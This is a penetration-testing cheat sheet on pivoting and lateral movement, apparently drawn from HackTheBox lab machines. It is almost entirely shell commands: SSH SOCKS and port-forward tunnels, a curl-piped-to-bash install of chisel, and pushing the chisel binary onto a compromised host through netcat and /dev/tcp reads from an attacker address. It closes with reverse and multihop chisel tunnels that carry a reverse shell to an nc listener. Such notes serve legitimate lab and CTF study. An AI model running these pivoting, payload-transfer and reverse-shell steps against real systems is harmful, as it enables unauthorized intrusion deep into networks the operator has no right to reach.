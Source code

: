 ```yaml
---
icon: person-to-portal
---
```


# Pivoting/Lateral Movement

<details>

<summary><mark style="color:orange;"><strong><code>SSH</code></strong></mark> <mark style="color:purple;"><strong>Tunneling</strong></mark></summary>

{% hint style="info" %}
<mark style="color:red;">`Dynamic Port Forwarding`</mark>

{% code title="Check  proxychains port" %}
```sh
tail /etc/proxychains.conf
```
{% endcode %}

{% code title="Create a SOCK proxy" %}
```sh
ssh charix@10.10.10.84 -D 9050
```
{% endcode %}

{% code title="Now just use proxychains:" overflow="wrap" %}
```sh
proxychains vncviewer 127.0.0.1:5901 -passwd secret
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">`Local Port Forwarding`</mark>

{% code overflow="wrap" %}
```sh
ssh -L 3306:localhost:3306 user@remotehost.com
```
{% endcode %}

{% code title="Without interactive session" overflow="wrap" %}
```sh
ssh -L 8080:127.0.0.1:8080 -N -vv rosa@10.10.11.38
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Remote Port Forwarding`**</mark>

```sh
ssh root@10.10.10.65 -R 4443:10.10.14.6:443
```
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>chisel</code></strong></mark></summary>

{% code title="Install chisel" %}
```sh
curl https://i.jpillora.com/chisel! | bash
```
{% endcode %}

{% hint style="info" %}
<mark style="color:red;">**`Transfer chisel to a target`**</mark>

{% code title="Copy the binary" overflow="wrap" %}
```sh
cp /usr/local/bin/chisel .
```
{% endcode %}

{% code title="Set netcat" %}
```sh
nc -lvnp 80 < chisel
```
{% endcode %}

<mark style="color:red;">**`Now on the remote host`**</mark>

```sh
cd /var/tmp
```

{% code lineNumbers="true" %}
```sh
cat < /dev/tcp/10.10.14.172/80 > chisel
bash -c "cat < /dev/tcp/172.19.0.4/7011 > chisel"
```
{% endcode %}

```sh
chmod 755 /var/tmp/chisel
```
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Create a tunnel`**</mark>

{% code title="Start the server locally" overflow="wrap" %}
```sh
/usr/local/bin/chisel server -p 8002 -reverse -v
```
{% endcode %}

{% code title="Start the tunnel remotely" overflow="wrap" %}
```sh
/var/tmp/chisel client 10.10.14.172:8002 R:127.0.0.1:8001:172.19.0.2:80
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Multihop tunnel for reverse shell`**</mark>

* <mark style="color:purple;">**First start the new server on your attacking host:**</mark>

{% code overflow="wrap" %}
```sh
/usr/local/bin/chisel server -p 5000 -reverse -v
```
{% endcode %}

* <mark style="color:purple;">**Set also the listener:**</mark>

```sh
nc -lvnp 9005
```

* <mark style="color:purple;">**Now set the first hop:**</mark>

{% code overflow="wrap" %}
```sh
/var/tmp/chisel client 10.10.14.172:5000 6010:127.0.0.1:5000
```
{% endcode %}

* <mark style="color:purple;">**Finally set the second hop:**</mark>

{% code overflow="wrap" %}
```sh
/var/tmp/chisel client 172.19.0.4:6010 7020:127.0.0.1:9005 &
```
{% endcode %}
{% endhint %}

</details>
